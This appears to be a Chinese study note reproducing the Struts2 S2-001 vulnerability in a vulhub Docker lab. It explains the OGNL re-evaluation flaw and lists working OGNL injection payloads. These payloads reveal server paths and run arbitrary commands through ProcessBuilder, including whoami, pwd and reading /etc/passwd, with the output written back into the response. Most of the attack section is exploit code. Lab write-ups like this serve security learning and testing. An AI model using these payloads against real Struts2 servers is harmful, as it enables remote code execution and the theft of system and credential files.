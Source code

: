 ~~~
title: 漏洞复现学习（s2-001）
tags: 
  - 渗透测试
  - 漏洞复现
  - struts2
categories: 
  - 渗透测试
  - 漏洞复现
  - struts2
~~~



# Struts2 漏洞S2-001复现学习笔记

## **S2-001复现**

原理：该漏洞因用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用OGNL表达式%{value}进行解析，然后重新填充到对应的表单数据中。如注册或登录页面，提交失败后一般会默认返回之前提交的数据，由于后端使用%{value}对提交的数据执行了一次OGNL 表达式解析，所以可以直接构造 Payload进行命令执行。

### 漏洞环境搭建

https://github.com/vulhub/vulhub/tree/master/struts2/s2-001

运行以下命令进行设置

```
docker-compose build
docker-compose up -d
```

访问 http://127.0.0.1:8080/

![http://127.0.0.1:8080/](E:\学习\picture\image-20220329230339236.png)

### 漏洞poc测试

1.输入**%{‘123’}**，sumbit

![image-20220329230626576](E:\学习\picture\image-20220329230626576.png)

2.返回123，参数值，证明漏洞存在

![image-20220329230736190](E:\学习\picture\image-20220329230736190.png)

### 构造poc

1. #### 获取tomcat路径：

   ~~~
   %{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
   ~~~

   ![image-20220329231256122](E:\学习\picture\image-20220329231256122.png)

   语句执行后，查看返回的语句信息：

   ![image-20220329231351168](E:\学习\picture\image-20220329231351168.png)

2. #### 获取网站真实路径：

   ~~~
   %{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
   ~~~

   ![image-20220329231515325](E:\学习\picture\image-20220329231515325.png)

   ![image-20220329231641526](E:\学习\picture\image-20220329231641526.png)

   

3. #### 构造查看权限的poc：

   ~~~
   %{
   
   #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
   
   #b=#a.getInputStream(),
   
   #c=new java.io.InputStreamReader(#b),
   
   #d=new java.io.BufferedReader(#c),
   
   #e=new char[50000],
   
   #d.read(#e),
   
   #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
   
   #f.getWriter().println(new java.lang.String(#e)),
   
   #f.getWriter().flush(),#f.getWriter().close()
   
   }
   ~~~

   ![image-20220329231953711](E:\学习\picture\image-20220329231953711.png)

4. #### 执行任意命令只需要将上面的poc中whoami替换：

   ~~~~
   %{
   
   #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),
   
   #b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),
   
   #d=new java.io.BufferedReader(#c),
   
   #e=new char[50000],#d.read(#e),
   
   #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
   
   #f.getWriter().println(new java.lang.String(#e)),
   
   #f.getWriter().flush(),
   
   #f.getWriter().close()
   
   }
   ~~~~

   ![image-20220329232113613](E:\学习\picture\image-20220329232113613.png)

5. #### 执行命令（带参数的命令：`new java.lang.String[]{"cat","/etc/passwd"}`）：

   ~~~~
   %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
   ~~~~

   ![image-20220329231930856](E:\学习\picture\image-20220329231930856.png)

### 关闭docker环境

~~~
命令：docker-compose down -v
~~~

